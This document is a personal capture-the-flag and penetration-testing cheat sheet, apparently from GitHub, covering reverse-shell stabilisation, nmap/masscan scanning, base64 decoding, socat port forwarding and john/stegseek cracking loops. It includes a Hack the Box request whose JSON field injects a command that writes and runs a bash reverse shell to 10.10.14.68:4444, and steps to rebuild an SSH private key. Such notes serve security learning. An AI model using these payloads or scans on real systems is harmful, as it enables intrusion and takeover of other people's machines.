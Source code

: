 ## 1. Stabilize your reverse shell
  
    python3 -c "import pty;pty.spawn('/bin/bash')"
    export TERM=xterm; export SHELL=/bin/bash
    CTRL+Z
    stty raw -echo;fg
    
  ####  OR Most good
         python3 -c "import pty;pty.spawn('/bin/bash')"
         export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
         export TERM=xterm-256color
         alias ll='ls -lsaht --color=auto'
          ctrl+Z  (in target) 
         stty raw -echo;fg;reset
               press enter *3
                   in my machine run 
                    stty -a ( output = speed 38400 baud; rows 40; columns 174; line = 0;)
         stty columns 174 rows 40
      
## 2. Nmap scan script
    $ cat nmap-scan.sh 
    ports=$(nmap -p- --min-rate=1000  -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -sC -sV -p$ports $1
    sudo masscan 34.125.4.41  -p0-65535,U:0-65535

   #### usage
    $ ./nmap-scan.sh <ip_to_scan>
## 3. Crypto
#### base64 encode
    $ echo -n "administrator:password" | base64
    YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==
#### base64 decode
    $ echo "YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==" | base64 -d
    administrator:password 
#### For nested base64 files
    #!/usr/bin/env python3

    import sys
    import base64

    if len(sys.argv) < 2:
      print("Usage: {} <file.b64.txt>".format(sys.argv[0]))
      sys.exit(1)

    data = open(sys.argv[1], "r").read()

    while True:
      try:
        data = base64.b64decode(data)
      except:
        break

    print(data)
    
  ##### To use it:
 

    $ python3 decode_nested_b64.py b64.txt 
    b'flag 44: ygm2my89uqzirzj0nojw'
#### base32
    $ echo "NBSWY3DPEB3W64TMMQQQU===" | base32 -d
    hello world!
  
  ## Port forwading
  ### using socat 
          socat tcp-listen:9090,fork tcp:127.0.0.1:631  ....631 is internal port  ... 9090 is the port i will in mymachine
## BASH automation
*  cracking with all password list from seclists/Passwords
  
       for i in $(ls /usr/share/seclists/Passwords/ | grep .txt); do john hash /usr/share/seclists/Passwords/$i; done

 * cracking images
 
       for i in $(ls /usr/share/seclists/Passwords/ | grep *.txt); do stegseek event_banner.jpg /usr/share/wordlists/SecLists/Passwords/$i; done

   ### davzat hack the box machine getting shell
   
           POST /api/pet HTTP/1.1
            Host: pets.devzat.htb
            User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
            Accept: */*
            Accept-Language: en-US,en;q=0.5
            Accept-Encoding: gzip, deflate
            Referer: http://pets.devzat.htb/api/pets/
            Content-Type: text/plain;charset=UTF-8
            Origin: http://pets.devzat.htb
            Content-Length: 126
            DNT: 1
            Connection: close

            {"name":"aaaaa","species":"gopher;echo 'bash -i >& /dev/tcp/10.10.14.68/4444 0>&1' > sh.sh; chmod +x sh.sh;/bin/bash ./sh.sh"}
### Formating an id_rsa
   
     echo "-----BEGIN OPENSSH PRIVATE KEY-----" > id_rsa
     
  then body 
  
    echo "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcnNhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvVbhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=" | sed 's/ /\n/g' >> id_rsa
    
 Then ending 
  
      echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa
      
